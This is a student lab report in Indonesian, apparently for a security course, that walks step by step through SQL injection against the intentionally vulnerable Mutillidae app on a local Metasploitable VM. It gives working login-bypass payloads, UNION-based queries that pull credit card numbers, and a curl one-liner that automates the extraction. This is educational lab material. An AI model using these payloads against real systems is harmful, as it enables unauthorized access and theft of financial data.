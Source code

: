 # LAPORAN TUGAS 3 PKSJ
 OLEH 
- 5114100092    KHARISMA MONIKA
- 5114100131    Michael Dave
- 5114100081    M. Luqmanul Hakim

___

## MULTIDIAE

### LESSON 5
1. Membuka halaman mutillidae dengan memasukan URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/home.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

2. Pilih halaman login dengan menekan tulisan login di sebelah kiri atas dari halaman mutillidae
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/login.png "Mutillidae Login page")

3. Isikan (') / petik satu / single_quote pada kolom name seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test.png "Mutillidae single quote test")
Lalu tekan enter

4. Dapat dilihat dibagian atas muncul error log yang memberikan indikasi mengenai format dari dari perintah SQL untuk login
yaitu SELECT * FROM accounts WHERE username=''' AND password=''
dimana (') menyebabkan error pada eksekusi command sql.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test_report.png "Mutillidae single quote test report")

5. Dengan demikian maka dapat dilakukan login dengan mem-bypass password menggunakan sql injection dengan mengetikan perintah
sebagai berikut "'or 1=1-- " (petik 2 tidak perlu diketik juga)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Mutillidae bypass login")
Perhatikan untuk memberikan spasi di akhir dari tanda (-- ).
Lalu tekan enter.

6. Hasilnya
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test_report.png "Mutillidae login as admin")
Perhatikan frasa logged in as Admin:admin

7. Selanjutnya mencoba injeksi sql pada kolom password. Masukan samurai pada kolom nama, kemudian tanda (') pada kolom password
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/9.1.png "Injeksi pada kolom password")

8. Untuk menampilkan isi password, klik kanan pada kolom pengisian password, pilih inspect element. Ubah type=password menjadi type=text seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/9.2.png "Menampilkan isi password")

9. Setelah di tekan login kita dapat melihat hasilnya adalah sebagai berikut, yang menyatakan bahwa (') terdaftar sebagai simbol yang digunakan dalam perintah sql yang "dapat merusak" sebuah query pada web yang rentan terhadap sql injection
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/9.3.png "error report single quotes on password")

10. Selanjutnya mencoba injeksi sql pada kolom password untuk login kembali. Masukan samurai pada kolom nama, kemudian tanda "'or 1=1-- " (petik 2 tidak perlu diketik juga) pada kolom password. (jangan lupa spasi setelah '-- ' )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/10.1.png "Injeksi pada kolom password")

11. Untuk menampilkan isi password, klik kanan pada kolom pengisian password, pilih inspect element. Ubah type=password menjadi type=text seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/10.2.png "Menampilkan isi password")

12. Setelah di tekan login kita dapat melihat hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/10.3.png "success login as admin")
Meskipun name yang dimasukan adalah samurai, tetapi karena struktur query yang ada, maka dengan menginjeksikan "'or 1=1-- " / selalu benar, maka record yang diambil adalah yang paling atas yaitu record admin.
Setelah itu lakukan logout

13. Selanjutnya mencoba injeksi sql pada kolom password untuk login kembali untuk masuk sebagai user samurai. Masukan samurai pada kolom nama, kemudian klik kanan, pilih inspect element, ubay maxlength=20 menjadi maxlength=50 dan type=password menjadi type text
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.1.png "Inspect element")

  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.2.png "Mengubah maxlength dan type")

14. Masukan "' or (1=1 and username='samurai')-- " pada kolom password, perhatikan untuk memberikan spasi di akhir dari tanda '-- '
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.3.png "Perintah sql injection")

15. Setelah di tekan login kita dapat melihat hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/11.4.png "success login as samurai")

16. Selanjutnya kita akan mencoba perintah sql pada terminal. Jalankan perintah berikut pada terminal di metasploitable.
Ketikan perintah sudo mysql atau mysql -u [nama_user] -p [password]
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.1.png "success login as root in mysql")
Lalu tekan enter.

17. Ketikan 'show databases;' kemudian tekan enter. Perintah berikut adalah untuk menampilkan semua database yang ada.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.2.png "show database")

18. Ketikan perintah 'use owasp10' untuk memilih database yang akan diakses / active database. (tidak perlu memberikan tanda (;) pada akhir perintah.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.3.png "change database")

19. Masukan perintah 'show tables;' untuk menampilkan list tabel yang ada pada database aktif
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.5.png "show table")

20. Masukan perintah 'desc accounts;' untuk menampilkan format dan struktur dari tabel accounts
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.6.png "desc accounts")

21. Masukan perintah 'select * from accounts;' untuk menampilkan isi dari tabel accounts
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.7.png "query seluruh tabel")

22. Masukan perintah (select * from accounts where username='' and password='';) untuk menampilkan record dengan username='' dan password=''. 
Kemudian perintah (select * from accounts where username='samurai' and password='samurai';) untuk menampilkan record dengan username=samurai dan password=samurai.
Kemudian perintah (select * from accounts where username='samurai' and password='wrongpassword';) untuk menampilkan record dengan username=samurai dan password=wrongpassword.
Kemudian perintah (select * from accounts where username='samurai';-- and password='samurai';) untuk menampilkan record dengan username=samurai dan mengcomment / mengabaikan perintah selanjutnya. Untuk lebih jelas dapat dilihat pada gambar berikut ini.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.8.png "query 4 macam")

23. Mencoba hasil single quote test / memasukan (') pada kolom username. Dapat dilihat bahwa input (') merusak query sehingga tida menghasilkan apapun kecuali ditambahkan dengan (';)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.9.png "hasil query (')")

24. Mencoba hasil query (select * from accounts where username = '' or 1=1; --   and password = '';). Dapat dilihat bahwa input ini mengembalikan hasil seluruh record pada tabel karena perintah always true.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.10.png "hasil query always true")

25. Mencoba hasil query (select * from accounts where username = 'samurai' and password = '' or 1=1; -- ';). Dapat dilihat bahwa input ini mengembalikan hasil seluruh record pada tabel karena perintah always true dan struktur perintah dari mutilidae.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.11.png "hasil query always true")

26. Mencoba hasil query (select * from accounts where username = 'samurai' and password = '' or (1=1 and username = 'samurai'); -- ';).Dapat dilihat bahwa input ini mengembalikan hasil berupa record dengan username adalah samurai tanpa perlu mengetahui password.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/12.12.png "hasil query user samurai")


### LESSON 8
1. Pada terminal metasploitable jalankan perintah berikut.
Ketikan perintah (sudo mysql atau mysql -u [nama_user] -p [password]). Lalu tekan enter. Ketikan perintah (show databases;) untuk menampilkan list dari database yang ada
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.1.png "success login as root in mysql")

2. Ketikan perintah (use owasp10) untuk memilih database yang aktif. Lalu perintah (show tables;) untuk menampilkan seluruh tabel pada database aktif.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.2.png "change database and show table")

3.Ketikan perintah (desc accounts;) untuk menampilkan struktur tabel dari accounts. Lalu ketikan perintah (desc credit_cards;) untuk menampilkan struktur tabel dari credit_cards.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.3.png "desc accounts and credit_cards table")

4. Ketikan perintah (select * from accounts union select ccid,ccnumber,ccv,expiration,null from credit_cards;). union digunakan untuk mengabungkan hasil query beberapa statement select menjadi 1 tabel.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.4.png "union query")

5. Selanjutnya, buka browser pada kali linux dan ketikan perintah URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.1.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

6. Pilih owasp10, injection, sqli-extract data, user info
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.2.png "open userinfo")

7. Ketikan perintah (' union select null -- ) pada kolom nama. lalu tekan enter 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.3.png "union query")

8. Hasil error menunjukan bahwa query yang diunion memiliki jumlah kolom yang berbeda.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.4.png "union query")

9. Klik kanan pada kolom name, pilih inspect element, kemudian ubah size dari kolom inputan nama menjadi 50 dengan mengubah size=20 menjadi size=50. Kemudian lakukan percobaan dengan menambah kolom yang diunion dengan cara menambah (,null) pada akhir pada perintah select sehingga menjadi (' union select null,null -- ). Pada gambar digunakan 5 null yang menyatakan 5 kolom yang akan di union kan. Untuk kasus yang lain jumlah null harus dicoba dan diiterasi sendiri.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.5.png "mencari jumlah kolom")

10. Hasilnya ketika di enter adalah tidak ada lagi error yang menyatakan bahwa union telah berhasil.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.6.png "union berhasil")

11. Selanjutnya untuk memetakan mana kolom pada database yang berhubungan dengan angka-angka ketika output ditampilkan, maka digunakan perintah (' union select 1,2,3,4,5 -- )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.7.png "memetakan output")

12. Hasilnya ketika dienter adalah 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.8.png "hasil memetakan output")

13. Selanjutnya untuk mengeluarkan hasil yang diinginkan yaitu yang ada pada tabel credit_card maka dilakukan dengan perintah (' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- )(jangan lupa spasi pada akhir perintah (-- )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.9.png "union sql injection")

14. Hasilnya ketika dienter adalah
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.10.png "hasil union sql")
Data pada username menyatakan nomor kartu kredit, password menyatakan password, dan signature adalah masa berlaku.

15. Ketika dilakukan dengan curl, ketikan perintah ini pada termintal (curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[IP_Address_mutillidae]/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'). Perlu menganti alamat ip agar sesuai.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.1.png "use curl")

16. Hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.2.png "output use curl")
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.3.png "output use curl")

17. Untuk membuat output file maka ketikan perintah (cd /root)
kemudian ketikan perintah berikut (curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[IP_Address_mutillidae]/mutillidae/index.php" | grep -i "Username="  > lesson8.txt). Perlu menganti alamat ip agar sesuai. Kemudian ketikan perintah (cat lesson8.txt) untuk menampilkan. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.4.png "cat the use of curl")

18. Selanjutnya adalah mendownload output parser. Tujuannya adalah agar hasil crawl dapat dibaca dengan baik. Pertama ketikan perintah (cd /root) untuk pindah ke direktori root. kedua, ketikan perintah (wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT) untuk mendownload parser dalam bahasa perl. Kemudian ketikan (mv lesson8.pl.TXT lesson8.pl) untuk mengubah eksistensi file menjadi (.pl). Lalu perintah (chmod 700 lesson8.pl) untuk memastikan hanya pemilik yang bisa menjalankan.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.5.png "download and prepare parser")

19. Kemudian jalankan parser yang sudah didownload dengan perintah (./lesson8.pl) lalu enter
hasilnya adalah 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.6.png "run the parser")


